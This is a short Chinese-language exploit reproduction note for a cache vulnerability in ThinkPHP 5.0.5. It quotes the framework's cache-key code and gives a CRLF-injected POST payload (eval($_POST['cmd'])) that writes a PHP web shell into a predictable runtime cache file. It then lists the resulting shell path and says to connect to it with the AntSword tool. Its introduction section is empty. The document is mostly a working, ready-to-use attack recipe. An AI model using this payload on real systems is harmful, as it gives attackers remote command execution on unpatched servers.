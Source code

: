 Thinkphp 5.0.5 缓存漏洞
=======================

一、漏洞简介
------------

二、漏洞影响
------------

Thinkphp 5.0.5

三、复现过程
------------

### 漏洞分析

-   漏洞代码与3.2.3差不多，不一样的在缓存目录

```{=html}
<!-- -->
```
-   protected function getCacheKey($name)
            {
                $name = md5($name);
                if ($this->options['cache_subdir']) {
                    // 使用子目录
                    $name = substr($name, 0, 2) . DS . substr($name, 2);
                }
                if ($this->options['prefix']) {
                    $name = $this->options['prefix'] . DS . $name;
                }
                $filename = $this->options['path'] . $name . '.php';
                $dir      = dirname($filename);
                if (!is_dir($dir)) {
                    mkdir($dir, 0755, true);
                }
                return $filename;
            }

```{=html}
<!-- -->
```
-   在index控制器写如下代码：

![](./resource/Thinkphp5.0.5缓存漏洞/media/rId25.png)

-   之后访问
    `http://www.0-sec.org/public/index.php/Home/index`POST数据：`con=%0aeval($_POST['cmd']);%0d//`
-   最终在
    `runtime/cache/b0/68931cc450442b63f5b3d276ea4297.php`文件生成shell：

![](./resource/Thinkphp5.0.5缓存漏洞/media/rId26.png)

之后访问蚁剑
`http://www.0-sec.org/runtime/cache/b0/68931cc450442b63f5b3d276ea4297.php`

![](./resource/Thinkphp5.0.5缓存漏洞/media/rId27.png)

### 小结

### Thinkphp5.0.5

1.  漏洞文件位置(一般审计得出)

-   `http://www.0-sec.org/public/index.php/Home/Index/index`

    POST数据 :`con=%0d%0aeval($_POST['cmd']);%0d%0a//`

2.  缓存文件位置b0文件夹是md5(cache-name)前2位。

-   `http://www.0-sec.org/runtime/cache/b0/b068931cc450442b63f5b3d276ea4297.php`

3.  蚁剑连接

参考链接
--------

> [https://h3art3ars.github.io/2019/12/16/Thinkphp3-2-3-5-0-10%E7%BC%93%E5%AD%98%E6%BC%8F%E6%B4%9E/](https://h3art3ars.github.io/2019/12/16/Thinkphp3-2-3-5-0-10缓存漏洞/)
